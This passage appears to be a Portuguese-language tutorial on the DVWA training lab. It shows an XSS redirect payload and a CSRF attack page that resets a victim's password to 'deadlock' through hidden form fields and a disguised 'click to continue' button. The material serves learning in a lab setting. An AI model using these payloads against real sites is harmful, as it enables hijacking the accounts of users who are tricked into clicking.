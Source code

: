 Uma triste história, não? Bem, vejamos na prática como seria:

Como visto acima, podemos utilizar o **document.location** para criar um redirecionamento de páginas. Pois bem, façamos o mesmo neste caso.
```javascript
    <script>document.location = 'http://127.0.0.1/confiavel.html</script>
```
 O código de **confiável.html** precisa realizar a request original de redefinição de senha.

No exemplo *dvwa*:
```html
    <form action="#" method="GET">
    
    New password:<br />
    
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br />
    
    Confirm new password:<br />
    
    <input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
    
    <br />
    
    <input type="submit" value="Change" name="Change">
    
    </form>
```
Façamos algumas pequenas modificações:
```html
    <body>
    <style type="text/css">
        body {
      background-color: orange;
    }
        form {
            text-align: center;
        }
    </style>
    <form action="http://localhost/dvwa/vulnerabilities/csrf/?" method="GET">
                <h1>Clique aqui para continuar</h1>
                <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="deadlock">
                <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="deadlock">
                <input type="submit" value="continuar" name="Change">
    
            </form>
    </body>
```
* _modificada a aparência para não parecer tão estranha assim para o usuário X ( O que não funcionou muito )_
* _na action do formulário, é passada a url responsável por fazer a redefinição de senha após receber os parâmetros via **GET**_
* _Os tipos de campos de senha foram alterados para **hidden**, assim, nada além do botão de ação será exibido/necessário para realizar nosso ataque._
* _Os valores de campos foram alterados para *deadlock* assim, nada precisa ser digitado, pois a redefinição possui seu padrão._
